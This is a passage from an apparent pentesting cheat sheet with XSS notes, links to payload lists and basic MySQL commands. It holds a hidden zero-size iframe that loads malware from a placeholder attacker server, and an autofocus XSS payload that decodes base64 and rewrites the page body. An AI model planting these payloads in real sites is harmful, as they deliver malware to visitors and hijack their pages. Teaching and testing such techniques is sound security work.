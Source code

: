 <iframe src="http://OUR_SERVER_IP/OUR_MALWARE" height="0" width="0"></iframe>

### How to play Mario with XSS

<iframe src="https://jcw87.github.io/c2-smb1/" width="100%" height="600"></iframe>

<input onfocus="document.body.innerHTML=atob('PGlmcmFtZSBzcmM9Imh0dHBzOi8vamN3ODcuZ2l0aHViLmlvL2MyLXNtYjEvIiB3aWR0aD0iMTAwJSIgaGVpZ2h0PSI2MDAiPjwvaWZyYW1lPg==')" autofocus>

### XSS payloads

- [Payload All The Things](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS%20Injection)
- [Seclist XSS](https://github.com/danielmiessler/SecLists/tree/master/Fuzzing/XSS)

## MySql Cheat Sheet

```bash
mysql -u [username] -p; #connect, you will be asked for password
SHOW DATABASES;
use DB_NAME;
SHOW TABLES;
select * from TABLE;
```

[MySQL cheatsheet](https://devhints.io/mysql)

[MySQL Cheat Sheet](https://www.mysqltutorial.org/mysql-cheat-sheet.aspx)

# Misc

## Linux file permissions
